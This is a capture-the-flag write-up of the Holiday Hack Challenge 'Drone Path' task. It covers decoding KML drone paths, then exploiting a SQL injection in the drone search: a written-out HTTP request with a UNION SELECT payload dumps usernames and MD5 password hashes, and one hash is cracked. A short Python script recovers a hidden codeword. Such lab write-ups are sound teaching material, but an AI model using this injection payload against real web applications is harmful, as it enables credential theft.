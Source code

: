 ```yaml
---
icon: material/text-box-outline
---
```


# Drone Path

**Official Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

**My Difficulty Rating**:
:fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-solid-gift::fontawesome-regular-square:<br/>

## Objective

!!! question "Request"
    Help the elf defecting from Team Wombley get invaluable, top secret intel to Team Alabaster. Find Chimney Scissorsticks, who is hiding inside the DMZ.

??? quote "Chimney Scissorsticks"
    Hey. Psst, over here. Hey, I'm Chimney Scissorsticks.

    I'm not liking all the tension brewing between the factions, so even though I agreed with how Wombley was handling things, I get the feeling this is going to end poorly for everyone. So I'm trying to get this data to Alabaster's side. Can you help?

    Wombley's planning something BIG in that toy factory. He's not really making toys in there. He's building an armada of drones!

    They're packed with valuable data from the elves working on the project. I think they hide the admin password in the drone flight logs. We need to crack this to prevent this escalating snowball showdown.

    You'll be working with KML files, tracking drone flight paths. Intriguing, right? We need every detail to prepare for what’s ahead!

    Use tools like Google Earth and some Python scripting to decode the hidden passwords and codewords locked in those files.

    Ready to give it a go? It’s going to be a wild ride, and your skills might just turn the tide of this conflict!

## Solution

### Silver

To begin, we can navigate to the FileShare and download the path. Importing it into Google Earth gives
us the first password we need:

![Google Earth showing the downloaded file which spells out 'GUMDROP1'](../../img/drone1.png)

We can now login with the username: fritjolf and password: GUMDROP1

As fritjolf, we now have access to an Elf Drone Workshop page where we can search for drones. Naturally,
I immediately tried an SQL injection:

![Picture showing SQL injection works](../../img/drone2.png)

Playing around with `ORDER BY` to work out the number of columns we'd need to match in a subquery will
cause different drones to be returned. Eventually, we stumble upon ELF-HAWK with the comments:

!!! quote
    * These drones will work great to find Alabasters snowball warehouses. I have hid the activation code in the dataset [ELF-HAWK-dump.csv](https://hhc24-dronepath.holidayhackchallenge.com/files/secret/ELF-HAWK-dump.csv). We need to keep it safe, for now it's under /files/secret.

    * We need to make sure we have enough of these drones ready for the upcoming operation. Well done on hiding the activation code in the dataset. If anyone finds it, it will take them a LONG time or forever to carve the data out, preferably the LATTER.

!!! warning "Not the intended path"
    This isn't how silver is intended to be solved, just how I solved it. The proper way to solve it
    is to view fritjolf's profile.

    ![Fritjolf's profile](../../img/drone3.png){: style="height:400px"}

    The file downloaded there has lattitude and longitude values that can be imported into Google Earth.
    After importing, you must zoom *way* in, in order to see the terrain shows the value "Elf-Hawk".
    You can then search for the drone directly without using any SQLi.

Open the ELF-HAWK-dump.csv in Google Sheets and plot it in a line chart with the longitude as the X-axis
and the latitude as the y-axis:

![The plotted latitude and longitude](../../img/drone4.png)

!!! success "DroneDataAnalystExpertMedal"

### Gold

From the silver challenge, we discovered an SQL injection in the drone search. We can exploit this to
dump the database's usernames and passwords by sending a request like:

```
GET /api/v1.0/drones?drone='+UNION+SELECT+username,password,'1'+FROM+users-- HTTP/2
Host: hhc24-dronepath.holidayhackchallenge.com
Cookie: _ga=GA1.1.291187586.1702175657; _ga_F6ZZNPR5E5=GS1.1.1702189151.3.1.1702190561.0.0.0; GCLB="38db899faa8ef55c"; session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZnJpdGpvbGYifQ.Z1jfGg.EWTwW_fQCixBDQrPTcQJ457CZpw
Referer: https://hhc24-dronepath.holidayhackchallenge.com/workshop


```

with the response:
```
{"name":"brynne","quantity":"2fd03c8ea542a7fd85ca4ebbcc13d5ca","weapons":"1"},{"name":"filo","quantity":"3c3a4f722ec77c1712941003443a4d83","weapons":"1"},{"name":"fritjolf","quantity":"2bb7ab7713cc012f02eb03c95f6e4443","weapons":"1"},{"name":"lira","quantity":"9eb6c13b1b18bc785ffb84d977bf5499","weapons":"1"},{"name":"pip","quantity":"e54efff9e6258bef3eb35f093e3bae00","weapons":"1"},{"name":"sprigg","quantity":"4f7f1b7c49fa2b0cc22e2d2599f1f2e5","weapons":"1"},{"name":"tylwen","quantity":"b9af6f935826ae1a89ecba72476fbcba","weapons":"1"}
```

Those hashes look like MD5 which means we can try to crack them with free online rainbow tables or with
something like JackTheRipper.

Pip's password cracks to `RumbleInTheJungle`, but logging in gives us nothing much beyond their
profile:

!!! Quote
    Bio: Pip is a master of drone delivery, programming routes with such precision that packages arrive exactly on the second they are expected. He has a large collection of flags, impressive!

!!! warning "What is a hint and what is not?"
    I got very stuck here. `Pip` could refer to the Package Installer for Python. The comments for
    Pigeon-Lookalike-v4 say:
    
    "I heard a rumor that there is something fishing with some of the files. 
    There was some talk about only TRUE carvers would find secrets and that FALSE ones would never
    find it."

    That led me down a rabbithole reading about https://autocarver.readthedocs.io/en/latest/carvers_examples.html. I believe Pip and carver are both misdirects though.

"Flags", "TRUE" and "FALSE" suggests they might be hiding values in the "True" and "False" columns
so we can write a small Python script to convert them to binary:

```python
lines = None
with open("ELF-HAWK-dump.csv", "r") as fd:
      lines = fd.readlines()


for line in lines:
   for cell in line.split(","):
       if cell == "TRUE":
               print("1", end="")
       elif cell == "FALSE":
               print("0", end="")
```

We can use Cyberchef to convert the binary into ASCII:

![ASCII Art showing the answer](../../img/drone5.png)

!!! success "EXPERTTURKEYCARVERMEDAL"
    CODEWORD=EXPERTTURKEYCARVERMEDAL

## Response

!!! quote "Chimney Scissorsticks"
    Bravo! You've tackled the drone challenge and navigated through those KML files like a true expert. Your skills are just what we need to prevent the big snowball battle—the North Pole thanks you!

    Well done! You cracked the code from the drones and showed you've mastered the basics of KML files. This kind of expertise will be invaluable as we gear up for what’s ahead!

    But I need you to dig deeper. Make sure you’re checking those file structures carefully, and remember—rumor has it there is some injection flaw that might just give you the upper hand. Keep your eyes sharp!
